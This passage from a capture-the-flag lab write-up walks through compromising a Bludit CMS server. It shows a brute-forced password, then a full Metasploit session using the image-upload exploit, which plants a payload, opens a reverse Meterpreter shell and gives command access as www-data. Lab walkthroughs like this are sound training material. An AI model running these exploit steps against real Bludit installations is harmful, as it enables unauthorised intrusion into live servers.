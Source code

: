 ```bash
root@darkness:~# python3 poc.py
[+] Password found: RolandDeschain
```

After running for a bit, we get a result: `RolandDeschain`. Now that we have credentials (`fergus`:`RolandDeschain`), we can search for a way to gain initial access to the server.

### Initial shell

After a bit of research I found a Metasploit-module, which seems to exploit an image-upload vulnerability. Because of lacking time, I did not tried to replicate the exploit myself (as I would usually do).

Anyways, we can run the exploit with the gathered credentials and check if we get a shell.

```ruby
msf5 > search Bludit                                       
                             
Matching Modules
================                                           
                                                                                                                      
   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------                    
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf5 > use 0
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading SpMCoqbbdn.png...
[*] Uploading .htaccess...
[*] Executing SpMCoqbbdn.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.10.191:53438) at 2020-05-31 15:09:31 +0200
[+] Deleted .htaccess
meterpreter > shell
Process 2780 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
